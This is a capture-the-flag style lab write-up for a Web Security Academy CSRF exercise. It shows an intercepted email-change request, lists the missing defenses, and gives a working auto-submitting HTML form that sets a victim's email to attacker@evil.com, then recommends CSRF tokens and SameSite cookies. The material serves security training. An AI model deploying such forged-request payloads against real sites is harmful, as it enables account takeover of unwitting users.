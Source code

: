 
# 🧪 Lab Report: CSRF Vulnerability with No Defenses

## 🔒 Lab Title

**CSRF vulnerability with no defenses**

## 📋 Objective

Exploit a CSRF (Cross-Site Request Forgery) vulnerability to change the email address of a victim user account.

---

## 🕵️‍♂️ Recon & Vulnerability Identification

### 🔍 Intercepted Request

Using Burp Suite, the following POST request was captured when updating the email address:

```
POST /my-account/change-email HTTP/2
Host: 0a4e00d20397daa380680307009a006b.web-security-academy.net
Cookie: session=PJLz8yI77g67Tls3bugt9iUBeSPoUN1z
Content-Type: application/x-www-form-urlencoded
Referer: https://0a4e00d20397daa380680307009a006b.web-security-academy.net/my-account?id=wiener

email=wiener2%40gmail.com
```

### ✅ Key Observations

* No CSRF tokens in the request
* No validation of `Origin` or `Referer` headers
* Uses `application/x-www-form-urlencoded` (easily spoofable by HTML forms)
* SameSite attribute is not set on the session cookie (allowing cross-site sending)

---

## 🎯 Attack Strategy

Exploit the lack of CSRF defenses by crafting an auto-submitting HTML form that sends a forged POST request from the victim’s browser to the vulnerable endpoint.

---

## 🛠️ Exploit Code (Stored on Exploit Server)

```html
<html>
  <body>
    <form action="https://0a4e00d20397daa380680307009a006b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## 🚀 Execution

1. Uploaded the exploit HTML to the provided **exploit server**
2. Clicked **"Store"**
3. Clicked **"Deliver exploit to victim"**
4. The lab was **marked as Solved** after the victim's email was updated to the attacker's value
5. ![Cracked](./CSRF.png)


---

## ✅ Conclusion

The CSRF attack was successful due to:

* Absence of anti-CSRF tokens
* Lack of `SameSite` cookie policy
* No `Origin` or `Referer` header validation

This highlights the importance of implementing **defense-in-depth** mechanisms, including:

* CSRF tokens
* `SameSite` cookies (`Strict` or `Lax`)
* Server-side validation of `Origin` or `Referer` headers

---